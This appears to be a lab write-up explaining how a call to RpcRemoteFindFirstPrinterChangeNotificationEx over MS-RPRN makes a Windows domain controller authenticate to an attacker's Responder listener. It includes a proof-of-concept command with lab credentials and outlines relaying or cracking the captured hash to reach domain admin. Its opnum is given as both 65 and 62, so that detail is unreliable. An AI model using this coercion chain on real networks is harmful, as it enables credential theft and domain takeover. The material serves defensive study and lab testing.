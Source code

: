 # MS-RPRN - Remote call to RpcRemoteFindFirstPrinterChangeNotificationEx (opnum 65)

## Summary

 - **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

 - **Protocol version**: 1.0

 - **Function name**: [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d)

 - **Function operation number**: `62`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `12345678-1234-abcd-ef00-0123456789ab`, version `1.0`) in order to perform calls to RPC functions of the `MS-RPRN` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. It will then call the remote [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcRemoteFindFirstPrinterChangeNotificationEx(...)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcRemoteFindFirstPrinterChangeNotificationEx(
    [in] PRINTER_HANDLE hPrinter,
    [in] DWORD fdwFlags,
    [in] DWORD fdwOptions,
    [in, string, unique] wchar_t* pszLocalMachine,
    [in] DWORD dwPrinterLocal,
    [in, unique] RPC_V2_NOTIFY_OPTIONS* pOptions
);
```


 - **hPrinter**: A handle to a printer or server object that was opened by RpcAddPrinter (section 3.1.4.2.3), RpcAddPrinterEx (section 3.1.4.2.15), RpcOpenPrinter (section 3.1.4.2.2), or RpcOpenPrinterEx (section 3.1.4.2.14).


 - **fdwFlags**: Flags that specify the conditions that are required for a change notification object to enter a signaled state. A change notification MUST occur when one or more of the specified conditions are met.

    This parameter specifies a bitwise OR of zero or more Printer Change Values (section 2.2.4.13). The rules governing printer change values are specified in section 2.2.4.13.


 - **fdwOptions**: The category of printers for which change notifications are returned. This parameter MUST be one of the supported values specified in Printer Notification Values (section 2.2.3.8).


 - **pszLocalMachine**: A pointer to a string that represents the name of the client computer. The rules governing server names are specified in section 2.2.4.16.


 - **dwPrinterLocal**: An implementation-specific unique value that MUST be sufficient for the client to determine whether a call to RpcReplyOpenPrinter (section 3.2.4.1.1) by the server is associated with the hPrinter parameter in this call.<369>


 - **pOptions**: A pointer to an RPC_V2_NOTIFY_OPTIONS (section 2.2.1.13.1) structure that specifies printer or job members that the client listens to for notifications. For lists of members that can be monitored, see Printer Notification Values (section 2.2.3.8) and Job Notification Values (section 2.2.3.3).

    The value of this parameter can be NULL if the value of fdwFlags is nonzero.


## References

 - Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1


 - Documentation of function `RpcRemoteFindFirstPrinterChangeNotificationEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d
